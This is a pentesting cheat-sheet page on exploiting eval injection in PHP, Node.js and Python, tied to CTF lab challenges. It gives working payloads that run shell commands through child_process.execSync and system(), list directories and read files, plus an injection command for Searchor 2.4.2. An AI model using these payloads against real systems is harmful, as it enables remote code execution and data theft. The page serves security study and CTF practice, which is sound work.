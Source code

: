 # Exploiting 'eval' Function

<div class="row row-cols-lg-2"><div>

Almost every language that we encounter during pentesting has an `eval` function that takes a string and execute the code inside.

Such function should be sparingly. Do not pass user input to them.

* PHP Eval Function

```php!
<?php
$payload = "echo 'Hello, World!';";
eval($payload);
```
</div><div>

* JavaScript/Node.js Eval Function

```js!
payload = 'console.log("Hello, World!")'
eval(payload)
```

* Python Eval <small>(or Exec)</small> Function

```js!
payload = "print('Hello, World!')"
eval(payload)
exec(payload)
```
</div></div>

<hr class="sep-both">

## Node.js 'eval' function

[![glitch](../../../../_badges/thm-p/glitch.svg)](https://tryhackme.com/r/room/glitch)
[![celestial](../../../../_badges/htb-p/celestial.svg)](https://app.hackthebox.com/machines/Celestial)
[![node_eval](../../../../_badges/rootme/web_server/node_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/Node-Eval)

<div class="row row-cols-lg-2"><div>

If the input is evaluated using eval, we can write some code  in it.

* Normal input: `5`
* Normal input wrapped: `(()=>5)()`
* Normal input fully wrapped: `(()=>{return 5})()`
* If it works, we can add some code in-between

```js!
(() => {
  try {
    return `Output: ${require('child_process').execSync('whoami').toString()}`
  } catch (error) {
    return `Error executing command: ${error}`
  }
})()
// without spaces
(()=>{try{return(`Output:${require('child_process').execSync('whoami').toString()}`)}catch(error){return(`Error:${error}`)}})()
```
</div><div>

It's not always possible to return a string, but if errors are returned, you may use them instead of the usual vector.

```js!
(()=>{throw new Error(require("child_process").execSync("whoami").toString())})()
```

Additional payloads:

```js!
res.end(require('fs').readdirSync('.').toString())
res.end(require('fs').readFileSync('file').toString())
```
</div></div>

<hr class="sep-both">

## Python 'eval' function

<div class="row row-cols-lg-2"><div>

#### Searchor 2.4.2

[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)

[Poc (python script)](https://github.com/jonnyzar/POC-Searchor-2.4.2) <small>(0.01k ⭐)</small>.

```shell!
$ onectf request -u URL -X POST -d 'engine=Yahoo' -p query -i '<q>, exec(""))#'
```

You can execute python code inside `exec`.
</div><div>
</div></div>

<hr class="sep-both">

## PHP 'eval' function

[![php_eval](../../../../_badges/rootme/web_server/php_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)

<div class="row row-cols-lg-2"><div>

You can inject a function call such as `phpinfo()` while using comments such as `;//` by remove appended code. If the payload is prepended by a quote, then add a matching quote.

```php!
<?php
$x = '';
eval('$x = "' . $payload . '";');
echo $x;
```

A few possible payloads:

```php!
$payload = '" . phpinfo() . "';
$payload = '" . phpinfo() . ";//';
$payload = '" . system("whoami") . ";//';
```
</div><div>

For payloads and filter bypass, refer to my [PHP Cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#php).
</div></div>